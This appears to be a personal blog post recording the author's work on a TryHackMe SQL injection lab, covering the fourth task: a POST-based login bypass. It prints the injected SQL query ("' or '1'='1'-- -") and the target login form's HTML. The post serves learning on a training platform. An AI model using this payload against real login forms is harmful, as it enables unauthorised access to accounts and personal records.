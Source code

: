 ```yaml
---
author: "Thao"
title: "My first hacking challenge CHAP.3: SQL Injection - POST Injection "

date: "2023-03-15"
summary: "In the second task, participants will work with an input box string, while the third task focuses on URL Injection. These challenges are designed to test our knowledge and problem-solving abilities in various cybersecurity scenarios. By completing these challenges, participants can gain valuable experience and insights into how to identify and mitigate security risks in real-world situations."
tags: [
    "sql",
    "hacking",
    "My-first-hacking-challenge",
]
toc: false
draft: true
thumbnail: "https://www.thesslstore.com/blog/wp-content/uploads/2022/05/xml-injection-attack-feature.jpg"
---
```


Welcome back to my post with the third chap about SQL Injection challenge on tryhackme.

## Third chap - fourth task
1. Environment Setup.

[Check at chap 1](https://whatisthaodoing.today/post/my-first-hacking-challenge-sql-injection-chap.1/)

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1' or '1'='1'-- -' AND password='a665a45920422f9d417e4867efdc4fb8a04a1f3fff1fa07e998e86f7f7a27ae3'
```

<img src="/sql-injection-img/p2/Challenge-room-all-task-4.png" width="100%"/>

task 4

```html
<form action="/sesqli4/login" onsubmit="return validateform()" name="inputForm" method="POST">
        <h2 class="text-center">Log in</h2>
        <div class="form-group">
            <input type="text" class="form-control" placeholder="ProfileID" required="required" name="profileID">
        </div>
        <div class="form-group">
            <input type="password" class="form-control" placeholder="Password" required="required" name="password">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Log in</button>
        </div>
    </form>
```

